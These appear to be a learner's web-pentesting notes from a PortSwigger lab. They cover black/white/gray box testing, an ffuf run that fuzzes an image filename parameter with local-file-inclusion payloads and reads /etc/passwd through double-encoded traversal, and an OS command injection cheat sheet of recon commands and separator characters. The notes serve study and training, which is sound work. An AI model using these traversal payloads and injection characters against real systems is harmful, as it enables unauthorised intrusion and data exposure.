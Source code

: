 •	BOX TESTING
o	Black Box Testing  No access to code.
o	White Box Testing  Full access to code.
o	Gray Box Testing  Partial access to code.

•	Using Kali Linux:
o	ffuf - Fuzz Faster U Fool (Fast web fuzzer written in Go)
	ffuf -w lfi-payload.txt -u https://0a4c003c0455c109c0b78cec00a200ef.web-security-academy.net/image?filename=FUZZ -mc 200
•	..%%32%66..%%32%66..%%32%66..%%32%66/etc/passwd [Status: 200, Size: 2262, Words: 25, Lines: 41, Duration: 209ms]
o	liffy: Local file inclusion exploitation tool - GitHub
	Used to crack LFI vulnerabilities
 
*ATTACK*

OSCommand Injection (Critical Vulnerability) 

•	Operating Systems
o	Windows
	If target using windows then inject windows-based command and somehow it gets executes then it a vulnerability.
o	Linux (Ubuntu, CentOS)
	Inject linux based commend, if gets executes then it’s a vulnerability.
•	Steps:
1.	Mapping of Application
2.	Find the parameters
3.	Inject Payload

o	Tip: Headers (Cookie, Referrer, User-Agent) can be vulnerable.

•	Useful commands
o	Name of current user
	whoami (Linux)
	whoami (Windows)
o	Operating system
	uname -a (Linux)	
	ver (Windows)
o	Network configuration
	ifconfig (Linux)	
	ipconfig /all (Windows)
o	Network connections
	netstat -an (Linux)
	netstat -an (Windows)
o	Running processes
	ps -ef (Linux)
	tasklist (Windows)

•	Useful Characters
o	|
o	||
o	&  %26
o	&&
o	;
o	\r  %0d
o	0x0a or \n  %0a (Newline)
o	`id`  `<command>`
o	$(id)  $(<command>)
